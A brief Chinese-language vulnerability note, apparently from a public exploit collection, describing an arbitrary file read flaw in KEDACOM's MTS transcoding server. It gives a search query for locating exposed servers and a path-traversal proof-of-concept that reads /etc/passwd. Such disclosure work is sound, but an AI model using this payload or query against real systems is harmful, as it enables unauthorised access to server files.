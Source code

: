 # 

# 科达 MTS转码服务器 任意文件读取漏洞

## 漏洞描述

KEDACOM MTS转码服务器存在任意文件读取漏洞，攻击这通过漏洞可以读取服务器任意信息

## 漏洞影响

```
MTS转码服务器
```

## 网络测绘

```
app="MTS转码服务器"
```

## 漏洞复现

登录页面

![image-20220525145422524](./images/202205251454625.png)

验证POC

```
/../../../../../../../../etc/passwd
```

![](./images/202205251454380.png)
